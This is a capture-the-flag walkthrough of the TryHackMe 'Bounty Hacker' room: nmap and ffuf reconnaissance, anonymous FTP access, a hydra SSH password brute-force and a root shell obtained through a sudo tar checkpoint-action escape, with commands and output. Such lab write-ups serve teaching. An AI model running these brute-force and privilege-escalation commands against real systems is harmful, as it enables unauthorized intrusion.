 # Bounty Hacker
Try Hack Me room
ip=10.10.152.23

# Reconnaissance 
### Nmap 
```bash
nmap -T5 -sV -A  $host_ip 
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-01 04:56 EST
Nmap scan report for 10.10.152.23
Host is up (0.17s latency).
Not shown: 967 filtered tcp ports (no-response), 30 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.54.133
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)

```
Saved ip to /etc/host so i dont need to remenber ip 

Saved as => Bounty_hacker.thm

Going to that port we found a web hosted 

### Port 80

Looked into robots.txt nothing found so moved to fuzz it using ffuf
```bash
ffuf -w /usr/share/wordlists/dirb/common.txt -u http://bounty_hacker.thm/FUZZ  -r 
```
Didn't find anything intersting. Since the box was easy i went to try the other ports 

### FTP 
Saw that Anonymous login was enabled on port 21. Intersting maybe there is something there. Found 2 files on the FTP server.
Lets GET them and see what happens.


## Lock.txt
This text file has what looks like some kind of credential, but to what? Lets try them on SSH since thats another open port.  
Note: We also found another text file on the ftp with a note 
1.) Protect Vicious.    
2.) Plan for Red Eye pickup on the moon.    
	-lin


## Gaining Access 
Lets try to bruteforce with the credentials we have and the user lin since its mentioned. 
```bash
hydra -l lin -P locks.txt 10.10.152.23  ssh 

```
Hoorray We are in !
```bash
	lin@bountyhacker:~/Desktop$ ls
	user.txt
	lin@bountyhacker:~/Desktop$ cat user.txt 

```

## Privilege Escalation
```bash
lin@bountyhacker:~/Desktop$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:                                                                                 
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin              
                                                                                                                                   
User lin may run the following commands on bountyhacker:                                                                           
    (root) /bin/tar 

```
We can see that lin can run tar binary with special privilege lets check if [gtfobins](https://gtfobins.github.io/) on how to privilege our way.

We can search the tar binary 

[https://gtfobins.github.io/](https://gtfobins.github.io/)
We can see that we can use sudo to gain better pprivilege  using 
```bash 
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```
And we are in 
```bash
lin@bountyhacker:~/Desktop$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh                       
tar: Removing leading `/' from member names                                                                                        
# whoami                                                                                                                           
root         
```
DONE !!!